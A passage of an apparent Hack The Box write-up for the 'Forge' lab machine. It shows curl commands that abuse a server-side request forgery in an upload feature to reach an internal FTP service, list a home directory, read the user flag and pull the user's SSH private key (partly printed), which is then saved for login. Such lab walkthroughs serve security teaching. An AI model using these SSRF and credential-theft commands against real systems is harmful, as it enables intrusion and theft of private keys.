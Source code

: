 We can see the contents of that is the home folder of the user:

```sh
┌──(root💀kali)-[~/htb/forge]
└─# curl http://forge.htb/uploads/lmlmHMB1xbKc89Cg8jJm                                                                                 
drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Oct 22 04:54 user.txt
```

## Curl Enumeration

We can make this easier by passing the filename we get back from curl back to curl cutting out the bit we want:

```sh
┌──(root💀kali)-[~/htb/forge]
└─# curl `curl -s -d 'url=http://ADMIN.FORGE.HTB/upload?u=ftp://<HIDDEN>@ADMIN.FORGE.HTB&remote=1' -X POST http://forge.htb/upload | grep uploads | cut -d '"' -f 2` 
drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Oct 22 04:54 user.txt
```

Now we can interact with it a bit easier. Let's get the user flag:

```sh
┌──(root💀kali)-[~/htb/forge]
└─# curl `curl -s -d 'url=http://ADMIN.FORGE.HTB/upload?u=ftp://<HIDDEN>@ADMIN.FORGE.HTB/user.txt&remote=1' -X POST http://forge.htb/upload | grep uploads | cut -d '"' -f 2`
<HIDDEN>
```

## Data Exfiltration

I spent some time trying to find something useful, eventually remembering that you can't see hidden files in FTP. Could it be as simple as the user has a .ssh folder with a private key I can grab:

```sh
┌──(root💀kali)-[~/htb/forge]
└─# curl `curl -s -d 'url=http://ADMIN.FORGE.HTB/upload?u=ftp://<HIDDEN>@ADMIN.FORGE.HTB/.ssh/id_rsa&remote=1' -X POST http://forge.htb/upload | grep uploads | cut -d '"' -f 2`
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAnZIO+Qywfgnftqo5as+orHW/w1WbrG6i6B7Tv2PdQ09NixOmtHR3
<SNIP>
-----END OPENSSH PRIVATE KEY-----
```

Turns out it was that simple! Let's echo this in to a file on Kali so we can use it to connect via SSH:

```text
┌──(root💀kali)-[~/htb/forge]
└─# echo "-----BEGIN OPENSSH PRIVATE KEY-----     
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAnZIO+Qywfgnftqo5as+orHW/w1WbrG6i6B7Tv2PdQ09NixOmtHR3
<SNIP>
-----END OPENSSH PRIVATE KEY-----
" > /root/htb/forge/id_rsa

┌──(root💀kali)-[~/htb/forge]
└─# chmod 600 id_rsa
```
